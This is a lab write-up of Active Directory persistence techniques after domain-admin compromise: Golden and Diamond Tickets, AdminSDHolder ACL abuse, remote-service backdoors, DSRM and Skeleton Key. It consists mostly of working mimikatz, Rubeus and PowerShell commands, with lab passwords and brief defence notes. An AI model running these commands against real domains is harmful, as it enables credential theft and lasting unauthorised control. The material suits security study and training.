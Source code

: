 # Some Persistence Techniques
After gaining domain admin privileges, attackers generaly focus on maintaining their
level of access over time. They employ various persistence techniques that allow them
to regain domain admin privileges whenever they want, potentially for months or even
years. In this lab i will explore:
- Golden Ticket
- Diamond Ticket
- AdminSDHolder
- Remote Services/Protocoles SD
- DSRM
- Skeleton Key


## 1-Golden Ticket
### dcsync
With the da credentials with start a new process and perform a dcsync attack to extrat the credentials of the krbtgt account (the account of the Key Distribution Center Sservice).<br>
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:itmanager /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
![alt text](assets/persistence/pth.png)<br>

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
![alt text](assets/persistence/dcsync.png)<br>

### DA tgt forging using low user
We use  the krbtgt account aes key to forge TGT for any user. Since the krbtgt accound passord is not often change this techique can allow the attacker to maintain his access for long periods...<br>

```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:<> /sid:<> /ldap /user:Administrator /printcmd
```
![alt text](assets/persistence/golden1.png)<br>
![alt text](assets/persistence/golden3.png)<br>
![alt text](assets/persistence/golden4.png)<br>

```powershell
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:<> 
/aes256:<> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
![alt text](assets/persistence/golden2.png)<br>
![alt text](assets/persistence/golden5.png)<br>

## 2-Diamond Ticket
One thing to always remember is that a Golden Ticket is a forged ticket, meaning there is no interaction with the KDC (Key Distribution Center). This can be detected by the Blue Team by monitoring for an AS-REP without a corresponding AS-REQ.<br>
In contrast, the Diamond Ticket is more OPSEC-safe. In this attack, we first request a legitimate TGT (Ticket Granting Ticket) from the KDC. Then, using the krbtgt hash, we decode the TGT, modify it, and re-encode it before using it.


### using the curent user security context (tgtdeleg)
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:corp.local /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

### using user/password
```powershell
C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:<> /user:stdent163 /password:UE6pj7HvkSgrGR92 /enctype:aes /ticketuser:administrator /domain:corp.local  /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /pt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

## 3-AdminSDHolder
[Read More](https://www.thehacker.recipes/ad/persistence/adminsdholder)<br>
AdminSDHolder is a container in AD that holds the Security Descriptor applied to members of protected groups. The ACL can be viewed on the AdminSDHolder object itself. The Progation mechanisme that overwrite SD of protected groups and users with the SD of the  AdminSDHolder container runs every hour by default but can run at a different frequency by adding the value AdminSDProtectFrequency to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters`. This is likely to be noticed by the blue team, as there is a high chance that the AdminSDHolder SD is being monitored.

![alt text](assets/persistence/adminsd1.png)<br>
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'helpdesk' -target-dn 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' 'corp/administrator':'Password321!'
```

```powershell
Import-Module C:\AD\Tools\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -PrincipalIdentity helpdesk -Rights All -Verbose
```
![alt text](assets/persistence/adminsd3.png)<br>
![alt text](assets/persistence/adminsd2.png)<br>

```powershell
Import-Module C:\AD\Tools\Invoke-SDpropagator.ps1
Invoke-SDPropagator -ShowProgress -Verbose -timeoutMinutes 1
```
![alt text](assets/persistence/adminsd4.png)<br>
With this, the helpdesk user has Full Control over all protected groups and users. To revert, simply remove the helpdesk ACE from AdminSDHolder and force the propagation again.

## 4-Remote Services/Protocoles SD

### Remote Registry
```powershell
Import-Module C:\AD\Tools\Race.ps1
Add-RemoteRegBackdoor -ComputerName WIN-4E30GDH8UQ6.corp.local -Trustee helpdesk -Verbose

Get-RemoteMachineAccountHash -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose
```
![alt text](assets/persistence/rr1.png)<br>
![alt text](assets/persistence/rr2.png)<br>
![alt text](assets/persistence/rr3.png)<br>
### Remote WMI
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemoteWMI -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose 

Get-WmiObject -Class win32_operatingsystem -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/rWMI1.png)<br>
![alt text](assets/persistence/rWMI2.png)<br>

### Powershell Remoting
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemotePSRemoting -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/pr1.png)<br>
![alt text](assets/persistence/pr2.png)<br>

## 5-DSRM
DSRM sands for Directory Services Restore Mode and on every DC the local admin "Administrator" is the DSRM account. His password i set when promoting the DC[Read More Here](https://www.hackingarticles.in/domain-persistence-dsrm/)<br>

![alt text](assets/persistence/dsrm1.png)<br>

### Creds Extraction
![alt text](assets/persistence/dsrm2.png)<br>
```
mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```
![alt text](assets/persistence/dsrm3.png)<br>
```
mimikatz.exe "lsadump::lsa /path" "exit"
```
![alt text](assets/persistence/dsrm4.png)<br>

### Registry Modification
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
![alt text](assets/persistence/dsrm5.png)<br>

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```
![alt text](assets/persistence/dsrm6.png)<br>

### Usage
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
### Defence Strategies
- Check & monitor the DsrmAdminLogonBehaviour value is not set to 2 inside the Registry key.
- DSRM passwords should be changed regularly at least once a month.


## 6-Skeleton Key
![alt text](assets/persistence/skeletonkey1.png)<br>
[Read More](https://www.thehacker.recipes/ad/persistence/skeleton-key/)<br>
```powershell
Invoke-mimikatz -Command "privilege::debug" "misc::skeleton" -ComputerName WIN-4E30GDH8UQ6.corp.local

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
### Notes
- not OPSEC Safe (very noisy)
- Skeleton Key is known to cause issues to ADCS
- if the lsass.exe process is running as PPL (Protected Process Light) the previous command will fail cause getting a handle on a protected process is not allowed.

